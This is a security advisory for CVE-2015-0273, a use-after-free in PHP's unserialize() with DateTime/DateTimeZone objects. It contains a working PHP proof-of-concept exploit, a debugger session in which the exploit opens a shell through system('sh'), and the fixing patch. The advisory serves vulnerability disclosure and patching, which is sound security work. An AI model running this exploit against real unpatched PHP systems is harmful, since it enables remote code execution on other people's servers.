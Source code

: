 ### Use After Free Vulnerability in unserialize() with DateTime* [CVE-2015-0273]
> Taoguang Chen <[@chtg](http://github.com/chtg)> - Write Date: 2015.1.29 - Release Date: 2015.2.20
 
A use-after-free vulnerability was discovered in unserialize() with DateTime/DateTimeZone objects's __wakeup() magic method that can be abused for leaking arbitrary memory blocks or execute arbitrary code remotely.

Affected Versions
------------
Affected is PHP 5.6 < 5.6.6  
Affected is PHP 5.5 < 5.5.22  
Affected is PHP 5.4 < 5.4.38  
Affected is PHP 5.3 <= 5.3.29

Credits
------------
This vulnerability was disclosed by Taoguang Chen.

Description
------------

``` c
static int php_date_initialize_from_hash(php_date_obj **dateobj, HashTable *myht)
{
	zval             *z_date;
	zval             *z_timezone;
	zval             *z_timezone_type;
	zval              tmp_obj;
	timelib_tzinfo   *tzi;
	php_timezone_obj *tzobj;

	z_date = zend_hash_str_find(myht, "date", sizeof("data")-1);
	if (z_date) {
		convert_to_string(z_date);
		z_timezone_type = zend_hash_str_find(myht, "timezone_type", sizeof("timezone_type")-1);
		if (z_timezone_type) {
			convert_to_long(z_timezone_type);
			z_timezone = zend_hash_str_find(myht, "timezone", sizeof("timezone")-1);
			if (z_timezone) {
				convert_to_string(z_timezone);

...

static int php_date_timezone_initialize_from_hash(zval **return_value, php_timezone_obj **tzobj, HashTable *myht TSRMLS_DC)
{
	zval            **z_timezone = NULL;
	zval            **z_timezone_type = NULL;
 
	if (zend_hash_find(myht, "timezone_type", 14, (void**) &z_timezone_type) == SUCCESS) {
		if (zend_hash_find(myht, "timezone", 9, (void**) &z_timezone) == SUCCESS) {
			convert_to_long(*z_timezone_type);
			if (SUCCESS == timezone_initialize(*tzobj, Z_STRVAL_PP(z_timezone) TSRMLS_CC)) {
				return SUCCESS;
			}
		}
	}
	return FAILURE;
}
```
 
The convert_to_long() leads to the ZVAL and all its children is freed from memory. However the unserialize() code will still allow to use R: or r: to set references to that already freed memory. There is a use after free vulnerability, and allows to execute arbitrary code.
 
Proof of Concept Exploit
------------
The PoC works on standard MacOSX 10.10.2 installation of PHP 5.5.14.

``` php
<?php

$f = $argv[1];
$c = $argv[2];

$fakezval1 = ptr2str(0x100b83008);
$fakezval1 .= ptr2str(0x8);
$fakezval1 .= "\x00\x00\x00\x00";
$fakezval1 .= "\x06";
$fakezval1 .= "\x00";
$fakezval1 .= "\x00\x00";

$data1 = 'a:3:{i:0;O:12:"DateTimeZone":2:{s:13:"timezone_type";a:1:{i:0;i:1;}s:8:"timezone";s:3:"UTC";}i:1;s:'.strlen($fakezval1).':"'.$fakezval1.'";i:2;a:1:{i:0;R:4;}}';

$x = unserialize($data1);
$y = $x[2];

// zend_eval_string()'s address
$y[0][0] = "\x6d";
$y[0][1] = "\x1e";
$y[0][2] = "\x35";
$y[0][3] = "\x00";
$y[0][4] = "\x01";
$y[0][5] = "\x00";
$y[0][6] = "\x00";
$y[0][7] = "\x00";

$fakezval2 = ptr2str(0x3b296324286624); // $f($c);
$fakezval2 .= ptr2str(0x100b83000);
$fakezval2 .= "\x00\x00\x00\x00";
$fakezval2 .= "\x05";
$fakezval2 .= "\x00";
$fakezval2 .= "\x00\x00";

$data2 = 'a:3:{i:0;O:12:"DateTimeZone":2:{s:13:"timezone_type";a:1:{i:0;i:1;}s:8:"timezone";s:3:"UTC";}i:1;s:'.strlen($fakezval2).':"'.$fakezval2.'";i:2;O:12:"DateTimeZone":2:{s:13:"timezone_type";a:1:{i:0;R:4;}s:8:"timezone";s:3:"UTC";}}';

$z = unserialize($data2);

function ptr2str($ptr)
{
	$out = "";
	for ($i=0; $i<8; $i++) {
		$out .= chr($ptr & 0xff);
		$ptr >>= 8;
	}
	return $out;
}

?>
```

Test the PoC on the command line, then any PHP code can be executed:

``` shell
$ lldb php
(lldb) target create "php"
Current executable set to 'php' (x86_64).
(lldb) run uafpoc.php assert "system\('sh'\)==exit\(\)"
Process 13472 launched: '/usr/bin/php' (x86_64)
sh: no job control in this shell
sh-3.2$ php -v
PHP 5.5.14 (cli) (built: Sep  9 2014 19:09:25) 
Copyright (c) 1997-2014 The PHP Group
Zend Engine v2.5.0, Copyright (c) 1998-2014 Zend Technologies
sh-3.2$ exit
exit
Process 13472 exited with status = 0 (0x00000000) 
(lldb) 
```

The Fix
------------
The latest PHP 5.4/5.5/5.6 series updates has fixed these vulnerabilities, the patch available to PHP 5.3 serie.

``` diff
diff --git a/php-5.3.29/ext/date/php_date.c b/php-5.3.29-fixed/ext/date/php_date.c
index 75bdf33..7b646f8 100644
--- a/php-5.3.29/ext/date/php_date.c
+++ b/php-5.3.29-fixed/ext/date/php_date.c
@@ -2573,12 +2573,9 @@ static int php_date_initialize_from_hash(zval **return_value, php_date_obj **dat
 	timelib_tzinfo   *tzi;
 	php_timezone_obj *tzobj;
 
-	if (zend_hash_find(myht, "date", 5, (void**) &z_date) == SUCCESS) {
-		convert_to_string(*z_date);
-		if (zend_hash_find(myht, "timezone_type", 14, (void**) &z_timezone_type) == SUCCESS) {
-			convert_to_long(*z_timezone_type);
-			if (zend_hash_find(myht, "timezone", 9, (void**) &z_timezone) == SUCCESS) {
-				convert_to_string(*z_timezone);
+	if (zend_hash_find(myht, "date", 5, (void**) &z_date) == SUCCESS && Z_TYPE_PP(z_date) == IS_STRING) {
+		if (zend_hash_find(myht, "timezone_type", 14, (void**) &z_timezone_type) == SUCCESS && Z_TYPE_PP(z_timezone_type) == IS_LONG) {
+			if (zend_hash_find(myht, "timezone", 9, (void**) &z_timezone) == SUCCESS && Z_TYPE_PP(z_timezone) == IS_STRING) {
 
 				switch (Z_LVAL_PP(z_timezone_type)) {
 					case TIMELIB_ZONETYPE_OFFSET:
 ```
